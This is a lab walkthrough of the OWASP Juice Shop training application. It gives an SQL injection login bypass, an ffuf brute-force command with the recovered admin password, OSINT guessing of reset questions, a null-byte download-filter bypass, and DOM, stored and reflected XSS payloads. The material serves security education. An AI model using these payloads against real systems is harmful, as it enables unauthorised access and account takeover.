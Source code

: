 # Juicy Shop OWASP





Looking around we can take the admin email in this product's comment

<figure><img src="../../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

```
admin@juice-sh.op
```



## SQLi to bypass login

Intercept the Login request and try to change the parameters with a SQLi payload.

{% code title="Payload" %}
```
email: ' OR 1=1--
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (353).png" alt=""><figcaption></figcaption></figure>

We can see that we bypassed the auth and now we are the admin of the shop.

Now we try to login as other users.

Take the user's email from post's comments.

```
bender@juice-sh.op
stan@juice-sh.op
uvogin@juice-sh.op
jim@juice-sh.op
mc.safesearch@juice-sh.op
accountant@juice-sh.op
bjoern@owasp.org
```

Paste these email in the burp Intruter and watch we can do.

<figure><img src="../../../.gitbook/assets/image (355).png" alt=""><figcaption></figcaption></figure>

We can make access to all users account.



## Broken Auth&#x20;

### Brute Forcing

Try to guess some password using Password brute force.

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt:W2 -X POST -d "email=admin@juice-sh.op&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.149.131/rest/user/login -fc 401
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (356).png" alt=""><figcaption></figcaption></figure>

```
admin@juice-sh.op : admin123
```



### Trivial reset password questions

<figure><img src="../../../.gitbook/assets/image (357).png" alt=""><figcaption></figcaption></figure>

The question can exploits using OSINT and get personal data from browsing online.

For example Jim wrote a comment refers to Star Treck, this can think us that the Jim is the Star Treck's Jim. And searching online the brother of him is Samuel.

Using this answer above we can change jim's password.



## Sensitive Data Exposure

Navigating in the site we found this exposure directory

<figure><img src="../../../.gitbook/assets/image (358).png" alt=""><figcaption></figcaption></figure>

But to bypass the filter that do not allow us to download files except .md and .pdf, we can use the NULL pointer %2500.

```
http://10.10.94.254/ftp/coupons_2013.md.bak%2500.md
```

&#x20;

## XSS vulnerabilities

DOM XSS

In search bar insert this payload (search bar change the DOM)

```
<iframe src="javascript:alert(`xss`)"> 
```

Stored XSS

Use function /saveLogonIP when a user click on Logout funcion and add this header to store the XSS payload in the "Last Logon IP" page.

```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

Reflected

Go to Tracker page and use the id var to exploit XSS vulnerability

```
...id=<iframe src="javascript:alert(`xss`)">
```

Then refresh the page.
